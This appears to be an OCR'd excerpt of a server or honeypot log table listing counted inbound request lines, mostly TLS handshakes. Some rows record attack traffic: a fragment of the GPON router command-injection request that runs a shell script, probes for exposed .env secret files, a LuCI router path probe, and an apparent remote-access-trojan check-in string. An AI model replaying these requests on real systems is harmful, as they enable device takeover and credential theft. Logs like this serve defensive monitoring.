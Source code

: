 | 169 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\xA2\x00\x00\x00\x00\x00\x00\x00\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                      |
| 170 |                     1 | 145.ll|'|'|SGFjS2VkX0Q0OTkwNjI3|'|'|WIN-JNAPIER0859|'|'|JNapier|'|'|19-02-01|'|'||'|'|Win 7 Professional SP1 x64|'|'|No|'|'|0.7d|'|'|..|'|'|AA==|'|'|112.inf|'|'|SGFjS2VkDQoxOTIuMTY4LjkyLjIyMjo1NTUyDQpEZXNrdG9wDQpjbGllbnRhLmV4ZQ0KRmFsc2UNCkZhbHNlDQpUcnVlDQpGYWxzZQ==12.act|'|'|AA==                                                                                                                                     |
| 171 |                     1 | \xA0\x05\x00`\x00\x00\x00\x00\xC4\xA3\xAFH\x99V\xB6\xB4\x1E^_\x1C\xC7r\x92E\x05\x02\x00\x01\x00\x00\xA1\xAA                                                                                                                                                                                                                                                                                                                  |
| 172 |                     1 | POST /GponForm/diag_Form?images/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
| 173 |                     1 | sh+/tmp/gpon80&ipv=0                                                                                                                                                                                                                                                                                                                                                                                                         |
| 174 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03LS&`                                                                                                                                                                                                                                                                                                                                                                                   |
| 175 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03k5\x07+\xACIb\x19\xFB(\x07\xC1\xB9\xB77{\x9B9\xE2\xE5\xB0\xFC:\x16R\x9C-4\x82\xBDf\xA9\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                               |
| 176 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\x1E\x95\x9B\xE8\xA9\x5C\xA1A\x1D\xD6\x8B\xDB\xA8\x09\xF4\xFC\xCC\xB3\x99a\x8C\xB4P*\xA5Q\x95\xE3\xF4\x02\xE1\xD9 \xAB\xC8\xB1\x07\xECg\xA2\x8B\xAE\xB1\x17i\x06\x96\xE6\xDD\xF8\xE1\x94<M\xBE\xC6\x87\xFF\xA7\xBD\x98w\xC2W\x5C\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                 |
| 177 |                     1 | GET /cgi-bin/luci/;stok=/locale HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                     |
| 178 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\x00\xC6\xC6\x22\xEC4\x90\xFF\xD2\xA7Y\x17\xF7\xDBP\x18\x1B\xE49S\x1B\x9C`\xCE\xD4\xED\xC9\xAD6\xA3\x00b /v\x91d\xA2\x13t(~\xDD\x5Cv\x9DAit\x0C\xF0\xD0+B\xEF\x8D\xF44o\xC5\xD5\x1C\x04\xE7\xDD\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                  |
| 179 |                     1 | GET /local/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
| 180 |                     1 | POST /__tests__/test-become/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                    |
| 181 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03j\xB2\xC6\xDEq\x91_b\xE3S\xDA)p\xC4\xB1!\xDC\xC5\x1C\x06'\x80\x9B>\x1B\xCB\x0C\xA3\xF0\xC3a\x19\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                      |